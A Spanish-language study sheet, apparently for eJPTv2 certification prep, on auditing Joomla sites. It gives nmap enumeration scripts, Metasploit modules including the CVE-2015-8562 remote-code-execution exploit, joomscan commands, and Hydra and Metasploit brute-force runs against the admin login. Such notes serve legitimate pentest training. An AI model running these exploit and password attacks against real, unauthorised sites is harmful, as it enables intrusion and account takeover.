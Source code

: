 ```yaml
---
layout: default
title: Preparación EJPTv2
---
```


## Joomla

Joomla es un CMS gratuito y de código abierto más populares a nivel mundial que puedes emplear para crear y administrar tu sitio web, blog e incluso aplicaciones para móviles.

Joomla te permite gestionar tu web fácilmente. Esto significa que puedes cambiar las imágenes y el texto de tu sitio web siempre que lo desees y no necesitas ninguna experiencia en codificación ni conocimientos de informática para ello.

---

## 🔍 Identificación de la versión de Joomla y sus componentes.

```bash
nmap -sV --script http-joomla-enum <url> # Detección de versión de Joomla y extensiones.
nmap -sV --script "http-joomla* and not http-joomla-brute" <url> # Escaneo de vulnerabilidades en Joomla.
nmap -sV --script http-joomla-users <url> # Detección de usuarios de Joomla.
nmap --script=http-joomla-enum --script-args http-joomla-enum.root=/ -p 80,443 <URL> # Escaneo completo para confirmar si se está utilizando Joomla.
nmap --script=http-vuln* -p 80,443 <url> # Detectar vulnerabilidades específicas en Joomla y sus extensiones.
```

 💡 Si el servicio web no carga correctamente o parece inaccesible, podría haber virtual hosting. En ese caso, debemos agregar el dominio correspondiente en nuestro /etc/hosts, por ejemplo: 10.0.0.10 joomla.htb.

## 🔍 Escaneo básico Joomla con Metasploit.

```bash
use auxiliary/scanner/http/joomla_version # Cargar módulo que vamos a utilizar.
set RHOSTS <url>
set RPORT 80
set TARGETURI /
run
```

## 🔍 Enumerar Usuarios de Joomla

```bash
use auxiliary/scanner/http/joomla_users_enum # Cargar módulo que vamos a utilizar.
set RHOSTS <url>
set RPORT 80
set TARGETURI /
run
```

## 🔑 Ataque de fuerza bruta con Metasploit:

```bash
set RHOSTS <url>
set USERNAME <nombre_usuario> # Nombre de usuario objetivo.
set PASS_FILE /usr/share/wordlists/rockyou.txt # Diccionario de contraseñas.
run
```

## 🛠️ Ejecución del exploit Joomla CVE-2015-8562 con Metasploit.

💡El exploit CVE-2015-8562 permite la ejecución remota de código en versiones vulnerables de Joomla. Y afecta a versiones de Joomla 1.5 a 3.4.5


```bash
use exploit/multi/http/joomla_http_header_rce # Seleccionamos el exploit.
set RHOSTS <url> # URL del objetivo.
set RPORT 80
set TARGETURI /
run # Iniciamos el ataque.
```

## 🛠️ Otras herramientas para auditar Joomla.

###  Joomscan

Joomscan es una herramienta especializada en la enumeración y auditoría de sitios web basados en Joomla.

```bash
joomscan --url <url_joomla> # Análisis básico del sitio Joomla.
joomscan --url <url_joomla> --enumerate-extensions # Enumerar extensiones instaladas.
joomscan --url <url_joomla> --enumerate-users # Enumerar usuarios.
```

💡 Una buena práctica al auditar Joomla es revisar el código fuente de la página web. Ahí podremos encontrar información sobre plantillas, extensiones utilizadas y posibles rutas sensibles.


Si encontramos posibles nombres de usuario durante la auditoría, debemos guardarlos en un archivo .txt para utilizarlos como wordlist de usuarios.

## 🔑 Fuerza bruta al panel Login de Joomla.

Fuerza bruta con Hydra

```bash
hydra -l <username> -P /usr/share/wordlists/rockyou.txt <url> http-post-form "/administrator/index.php:username=^USER^&passwd=^PASS^&option=com_login:F=Incorrect username or password."
```


----


<div style="text-align:center; font-size: 0.9em; margint-top: 40px; color: #33ff33;">
    💻 Hecho con 💚 por <strong>Marcela</strong> - 2025
</div>
